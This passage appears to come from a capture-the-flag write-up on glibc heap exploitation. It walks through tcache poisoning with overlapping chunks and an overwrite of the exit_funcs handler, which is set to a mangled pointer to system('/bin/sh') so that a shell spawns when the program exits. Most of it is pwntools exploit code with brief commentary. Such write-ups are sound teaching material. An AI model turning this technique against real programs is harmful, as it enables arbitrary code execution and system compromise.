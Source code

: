 ```py
write0 = p64(0)

# target1: exit_funcs overwrite
target1 = encrypt(heap_base + 0xa70, libc_base + 0x21af00)
write1 = flat(
    0, 1,
    4, rol(libc.sym.system, 0x11, 64),
    next(libc.search(b"/bin/sh\x00"))
)
```

Here, we don't mind using tcache chunks anymore. In fact, it's even easier to exploit than fastbin precisely because it
skips so much logic. However, make sure to alloc at least 2 chunks, if not the `fd` we overwrite is just null and won't
be placed at target address.

```py
# extra 1 chunk per tcache bin so that we can overwrite an existing chunk ptr
# if we only used 1 chunk per bin, tcache will see that number of chunks freed < number of chunks we want
# and not allocate us target0 and target1 (it will be taken from new addresses instead)
purchase(p, b"a"*0x10) # 2
purchase(p, b"a"*0x30) # 3
purchase(p, b"b"*0x10) # 4
purchase(p, b"c"*0x30) # 5
use(p, 2)
use(p, 3)
use(p, 4)
use(p, 5)

# use overlapping chunks to control fd ptr of poisoned chunks
payload = flat(
    0, 0x21,
    0, 0,
    0, 0x21,
    0, 0,
    0, 0x41,
    0, 0,
    0, 0,
    0, 0,
    0, 0x21,
    target0, 0,
    0, 0x41,
    target1, 0,
)
edit(p, 7, payload)
```

Lastly, we free the poisoned tcache chunks and get our write primitives! Upon exit, we will get our shell.

```py
purchase(p, b"b"*0x10)
purchase(p, b"c"*0x30)

purchase(p, b"\x00"*0x10) # 4
purchase(p, b"\x00"*0x30) # 5

edit(p, 4, write0)
edit(p, 5, write1)

# trigger exit
p.sendline(b"1")

```